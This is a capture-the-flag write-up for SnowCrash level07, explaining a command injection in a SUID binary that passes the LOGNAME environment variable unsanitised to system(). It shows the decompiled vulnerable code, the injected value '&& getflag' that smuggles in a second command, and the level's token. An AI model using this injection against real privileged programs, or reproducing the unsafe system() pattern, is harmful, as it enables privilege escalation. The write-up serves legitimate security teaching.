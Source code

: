# Level07: Command Injection via Environment Variable

## Overview

In this level, we encountered a SUID binary (`level07`) owned by `flag07` that was vulnerable to command injection through environment variables.

## Analysis

### Initial Examination

When we first check the binary:

```console
level07@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

The binary has the SUID bit set (note the 's' in the permissions), meaning it runs with the privileges of its owner (`flag07`).

When executed, the binary simply outputs "level07":

```console
level07@SnowCrash:~$ ./level07
level07
```

### Binary Analysis

Analysis using a decompiler like Ghidra, which attempts to reconstruct C-like source code from the compiled binary, reveals the core vulnerable logic:

```c
  // Ghidra decompiled snippet (variable names may differ slightly)
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
```

This code explicitly shows that the program:

1. Retrieves the `LOGNAME` environment variable using `getenv`.
2. Formats this value into a command string `/bin/echo %s ` using `asprintf`.
3. Executes the resulting command string using `system()`.

The vulnerability lies in directly incorporating the unsanitized `LOGNAME` value into the command string passed to `system()`.

## Exploitation

The vulnerability can be exploited by modifying the `LOGNAME` environment variable to include shell commands:

```console
level07@SnowCrash:~$ export LOGNAME="&& getflag"
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

### How it works:

1. We set `LOGNAME` to `"&& getflag"`
2. When the program runs `system("/bin/echo %s", getenv("LOGNAME"))`, it effectively executes:
   ```
   system("/bin/echo && getflag")
   ```
3. In shell syntax, the `&&` operator executes the second command if the first one succeeds
4. `/bin/echo` with no arguments simply prints a newline and exits successfully
5. Then `getflag` runs with the privileges of `flag07`, giving us the token

## Security Lesson

This level demonstrates the danger of passing unsanitized user input or environment variables to functions like `system()`. Always validate and sanitize any input that could affect command execution.

## Token

```
fiumuikeil55xe9cu4dood66h
```
